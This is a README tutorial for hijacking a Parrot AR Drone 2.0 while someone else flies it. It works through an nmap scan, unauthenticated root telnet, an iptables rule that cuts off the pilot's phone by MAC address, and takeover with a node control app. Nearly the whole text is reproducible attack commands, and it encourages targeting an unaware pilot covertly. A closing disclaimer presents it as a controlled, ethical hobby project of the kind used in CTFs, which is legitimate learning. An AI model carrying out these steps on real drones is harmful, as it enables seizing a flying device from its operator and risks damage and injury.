







# Hacking the Parrot AR Drone 2.0

This is a simple project to demonstrate how to hijack the control of a Parrot AR Drone 2.0. This model is famously insecure and is often used in hacking marathons and capture the flag events.

**Requirements:**
- A Parrot AR 2.0 Drone
- A smartphone (Android 5.0 was used in this guide)
- A computer or VM (Ubuntu 20.04 was used in this guide)


## Setup - Before Starting

### Parrot AR 2.0:

1. Charge the battery.

The charger should light up red while the battery is charging, and green when the battery is charged.

2. Connect the battery to the drone.

In each of the four rotors, a red LED should light up when the battery is connected, followed by a twitch of each blade, followed by a change of color of the LED from red to green.


### Smartphone:

1. Install the [AR FreeFlight 2.0](https://play.google.com/store/apps/details?id=com.parrot.freeflight&hl=pt_PT&gl=US) app.

**Note:** We had trouble installing on more recent Android devices, but thankfully we had an old smartphone laying around with Android 5.0. Still, we were not able to install from Google Play, so instead, we used [Aptoide](https://ar-freeflight.pt.aptoide.com/app). 

2. Connect the smartphone to the AR 2.0's wi-fi network.

3. Using the AR FreeFLight 2.0 app, test the controls of the drone.

### Computer:

1. Clone this repository.

The [drone-browser](./drone-browser/) directory has been cloned from [here](https://github.com/functino/drone-browser). This will be used to control the AR 2.0 from the computer. It is recommended to use node 10.24.1. The following packages need to be installed:

2. Install the [node-ar-drone](https://github.com/felixge/node-ar-drone) node package:
```bash
# inside ./drone-browser
git clone https://github.com/felixge/node-ar-drone
npm install ./node-ar-drone
```

3. Install the remaining required node packages:
```bash
# inside ./drone-browser
npm install
```

4. Test the app, to see if it works and install/update the remaining problematic node packages (if any):
```bash
# inside ./drone-browser
node ./server.js
```

**Success:**



**Note:** It's best to close the app for now, to avoid it taking over the AR 2.0 drone at the wrong time - *stealth is key!* - let's start the app again later, only when we are ready to take over the control of the drone!

## Let's Go!

For maximum effect, have an oblivious soul pilot the AR 2.0 using the smartphone. 

On the computer:

1. The AR 2.0 creates an unprotected wi-fi network - connect to it.

2. The AR 2.0 acts as a gateway, the network it creates has a private IP range (typically 192.168.1.0/24), and like a wi-fi router, the private IP of the AR 2.0 should be the first within the range - perform a port scan of the AR 2.0:
```bash
nmap -Pn 192.168.1.1
```

**Success:**



The AR 2.0 has open ports for ftp (21), telnet (23) and *freeciv* (5555) - the latter is used for transmission of video feed.

3. (Optional) Before connecting to the AR 2.0 via telnet, try to access the video feed of the drone, on TCP port 5555, using ffmpeg:
```bash
# (before) install ffmpeg
sudo apt install ffmpeg

# access the video feed
ffplay tcp://192.168.1.1:5555
```

**Success:**



4. Connect to the AR 2.0 via telnet:
```bash
telnet 192.168.1.1
```

**Success:**



With this, we are inside the AR 2.0, and we have root access! We can do pretty much anything we want with it - *even blow it up* - but let's (try to) not do it.

We can see who is connected to the AR 2.0 network:

```bash
# inside the telnet session
arp -a
```



Here, we can see that two devices with MAC addresses are connected to the drone:
- **192.168.1.2** is the smartphone
- **192.168.1.3** is my computer

5. In a scenario where the smartphone was the first to connect and send requests, the AR 2.0 is configured to only accept commands from this IP address. Therefore, before taking control, this priority needs to be hijacked. One way is to drop the access from the smartphone to the AR 2.0 altogether, by adding a firewall rule in the drone:

```bash
# inside the telnet session
iptables -A INPUT -m mac --mac-source 58:48:22:59:bb:1e -j DROP

# to revert this, either reboot the drone (because we haven't persisted the iptables rule), or get the number of the rule, and delete the entry in the iptables:
iptables -L -n -v --line-numbers
iptables -D INPUT <rule-number>
```

**Success:** 



The smartphone loses access to the video feed and can no longer control the drone. If a re-connection is attempted, the smartphone will not be able to connect to the AR 2.0's wi-fi network. As for the AR 2.0, it should stay hovering in mid air - *disclaimer: it shouldn't fall!*

6. Take control of the drone with the [drone-browser](./drone-browser/) app:

```bash
# inside ./drone-browser
node ./server.js

# open http://localhost:3001 in a browser of choice
```

**Success:** 



As soon as the app is started, the drone will attempt to land, and the control should be possible.

## Disclaimer

*Ethical* vs. *Unethical Hacking*: This project was done for fun, and in no way condones unethical hacking. All tests were performed in a controlled environment, with materials sorted for the end.